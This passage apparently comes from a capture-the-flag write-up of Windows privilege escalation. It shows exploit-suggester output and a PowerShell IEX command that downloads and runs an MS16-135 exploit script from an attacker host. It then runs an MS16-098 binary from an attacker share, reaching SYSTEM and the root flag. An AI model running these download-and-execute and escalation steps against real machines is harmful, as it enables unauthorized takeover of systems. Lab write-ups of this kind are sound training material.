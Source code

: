       [*]   http://www.exploit-db.com/exploits/35020/ -- MS14-060 Microsoft Windows OLE Package Manager Code Execution, MSF
      [*]
      [M] MS14-058: Vulnerabilities in Kernel-Mode Driver Could Allow Remote Code Execution (3000061) - Critical
      [*]   http://www.exploit-db.com/exploits/35101/ -- Windows TrackPopupMenu Win32k NULL Pointer Dereference, MSF
      [*]
      [E] MS13-101: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (2880430) - Important
      [M] MS13-090: Cumulative Security Update of ActiveX Kill Bits (2900986) - Critical
      [*] done


4. Starting from the top;

    MS16-135:
      C:\Users\kostas\Desktop> powershell.exe IEX(New-Object Net.Webclient).downloadString('http://10.10.14.8/MS16-135.ps1')
        	 _____ _____ ___   ___     ___   ___ ___
        	|     |   __|_  | |  _|___|_  | |_  |  _|
        	| | | |__   |_| |_| . |___|_| |_|_  |_  |
        	|_|_|_|_____|_____|___|   |_____|___|___|

        	                   [by b33f -> @FuzzySec]


        [!] Target architecture is x64 only!

    MS16-098:
      C:\Users\kostas\Desktop> //10.10.14.8/pub-share/ms16-098.exe
        Microsoft Windows [Version 6.3.9600]
        (c) 2013 Microsoft Corporation. All rights reserved.

        C:\Users\kostas\Desktop> whoami
          nt authority\system

        C:\Users\kostas\Desktop> type C:\Users\Administrator\Desktop\root.txt
          51ed1b36553c8461f4552c2e92b3eeed



██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝
